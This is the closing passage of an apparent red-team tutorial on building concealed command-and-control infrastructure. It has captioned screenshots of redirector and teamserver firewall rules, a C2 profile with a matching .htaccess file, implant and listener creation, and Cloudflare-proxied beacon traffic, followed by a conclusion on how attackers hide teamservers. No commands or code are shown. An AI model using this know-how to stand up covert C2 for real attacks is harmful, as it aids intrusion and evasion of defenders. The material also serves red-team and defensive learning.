
Redirector firewall rules and Tailscale status.


Teamserver firewall rules and Tailscale status.


Demo C2 profile.


`.htaccess` written around the C2 profile.



Creating the HTTP listener and implant for psuccso.com.


Successful session proxied through Cloudflare.


Observe HTTP traffic to our domain. (We created an HTTP beacon so we can see the traffic in Wireshark; in an actual engagement, you'd generate an HTTPS implant instead.)


The website's IP address is proxied behind Cloudflare.


Browsing to the domain shown in the network traffic returns a legitimate site.

## Conclusion

All in all, you will almost never see a real threat actor expose their teamserver, IP addresses, or anything directly attributable to them in their implants or anywhere throughout their operations. They will use redirectors serving real content, hidden behind Cloudflare, to proxy traffic to their teamserver using very specific distinctions to identify which traffic to filter. A lot more goes into building robust C2 infrastructure, such as DNS C2, traffic shaping, scalability, and automation, all of which I hope to cover in future parts of this series. Part two will cover scalability and automation with Terraform and Ansible, and part three will cover traffic shaping and DNS C2.
